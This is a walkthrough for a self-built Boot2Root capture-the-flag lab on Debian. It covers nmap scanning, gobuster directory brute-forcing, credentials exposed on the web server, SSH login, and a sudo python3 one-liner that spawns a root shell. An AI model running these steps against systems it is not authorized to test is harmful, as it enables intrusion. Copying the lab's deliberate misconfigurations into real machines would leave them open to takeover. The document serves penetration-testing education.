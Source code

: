 # ✅ Boot2Root Walkthrough

---

### 🎯 Overview

This is a realistic **Boot2Root CTF challenge** simulating a real-world penetration test. Your objectives are:

1. **Discover the target’s IP** on the network.
2. **Identify open ports and services**.
3. **Find hidden files** using directory brute-forcing tools.
4. **Retrieve user credentials and hints**.
5. **SSH into the system** as `ctfuser`.
6. **Access `user.txt`** for the first flag.
7. **Escalate privileges to root**.
8. **Access `root.txt`** for the final flag.

---

## 📦 Target Setup Summary

| Item     | Description                                                                  |
| -------- | ---------------------------------------------------------------------------- |
| OS       | Debian 13.0.0 (netinst)                                                      |
| Users    | `ctfuser` (challenge user), `inno` (decoy admin user)                        |
| Services | SSH on port 22, Apache web server on port 80                                 |
| Files    | Hidden files under `/var/www/html/hidden/`, containing credentials and hints |
| Flags    | `user.txt` in `/home/ctfuser`, `root.txt` in `/root`                         |

---

## 🔎 1️⃣ Discover the Target IP

Begin by scanning for active hosts on your subnet:

```bash
nmap -sn <your-subnet>/24
```

**Sample Output:**

```
Nmap scan report for <target-ip>
Host is up (0.0016s latency).
```

---

## 🔍 2️⃣ Scan for Open Ports

Use `nmap` to check for open services:

```bash
nmap -p- <target-ip>
```

**Expected Output:**

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---

## 🧩 3️⃣ Explore the Web Server

Check the web server:

```bash
curl http://<target-ip>/
```

Inspect for clues, links, or directory listings.

---

## 📂 4️⃣ Find Hidden Files Using Gobuster

Brute-force directories to locate hidden files:

### Install Gobuster

```bash
sudo apt install gobuster
```

### Run Gobuster

```bash
gobuster dir -u http://<target-ip>/hidden/ -w /usr/share/wordlists/dirb/common.txt -x txt,b64
```

**Output Example:**

```
/hidden/.user.txt (Status: 200)
/hidden/.hint.b64 (Status: 200)
```

---

## 📂 5️⃣ Retrieve the Files

### Get the Username

```bash
curl http://<target-ip>/hidden/.user.txt
```

```
ctfuser
```

### Get the Password Hint (Base64 Encoded)

```bash
curl http://<target-ip>/hidden/.hint.b64 | base64 --decode
```

```
Password is ctfpass
```

---

## 🔑 6️⃣ SSH into the Target

Login with discovered credentials:

```bash
ssh ctfuser@<target-ip>
```

Password: `ctfpass`

---

## 📄 7️⃣ Read `user.txt` for the First Flag

Inside your SSH session:

```bash
cat /home/ctfuser/user.txt
```

```
Flag{kappa_dance_in_rainy_days}
```

---

## ⚙️ 8️⃣ Privilege Escalation — Accessing `root.txt`

Check sudo permissions:

```bash
sudo -l
```

```
User ctfuser may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/python3
```

Exploit to get root shell:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

---

## 🔐 9️⃣ Read `root.txt` for the Final Flag

```bash
cat /root/root.txt
```

```
Flag{ultimate_root_power}
```

---

## 🎯 Conclusion

You have:

- ✅ Discovered the target via network scanning
- ✅ Found hidden files using `gobuster`
- ✅ Retrieved credentials
- ✅ Logged in via SSH
- ✅ Accessed the user flag
- ✅ Escalated to root via `sudo`
- ✅ Captured the root flag

This CTF covers reconnaissance, enumeration, exploitation, and privilege escalation, just like a real-world pentest.

---

## 📌 Notes

* The `inno` user is a decoy.
* The web server hides critical files for enumeration.
* Designed to reward careful investigation.

---

## 🥂 Cheers!

<svg width="140" height="80" viewBox="0 0 140 80">
  <g>
    <!-- Left glass -->
    <ellipse cx="45" cy="60" rx="16" ry="8" fill="#fafafa" stroke="#c7c7c7" stroke-width="2"/>
    <rect x="37" y="35" width="16" height="25" fill="#f8e7a2" stroke="#c7c7c7" stroke-width="2" rx="8"/>
    <rect x="43" y="65" width="4" height="15" fill="#c7c7c7"/>
    <!-- Right glass -->
    <ellipse cx="95" cy="60" rx="16" ry="8" fill="#fafafa" stroke="#c7c7c7" stroke-width="2"/>
    <rect x="87" y="35" width="16" height="25" fill="#f8e7a2" stroke="#c7c7c7" stroke-width="2" rx="8"/>
    <rect x="93" y="65" width="4" height="15" fill="#c7c7c7"/>
    <!-- Cheers animation -->
    <animateTransform attributeName="transform" type="rotate"
      values="0 70 60; -15 70 60; 15 70 60; 0 70 60" dur="1.5s" repeatCount="indefinite"/>
    <!-- Sparkles -->
    <circle cx="70" cy="20" r="2" fill="#ffd700">
      <animate attributeName="r" values="2;4;2" dur="1.5s" repeatCount="indefinite"/>
    </circle>
    <circle cx="60" cy="27" r="1.2" fill="#ffd700">
      <animate attributeName="r" values="1.2;2;1.2" dur="1.5s" repeatCount="indefinite"/>
    </circle>
    <circle cx="80" cy="24" r="1.5" fill="#ffd700">
      <animate attributeName="r" values="1.5;3;1.5" dur="1.5s" repeatCount="indefinite"/>
    </circle>
  </g>
</svg>

**Congratulations!**  
Raise a glass to your hacking skills and completion of the challenge! 🎉🍷

---
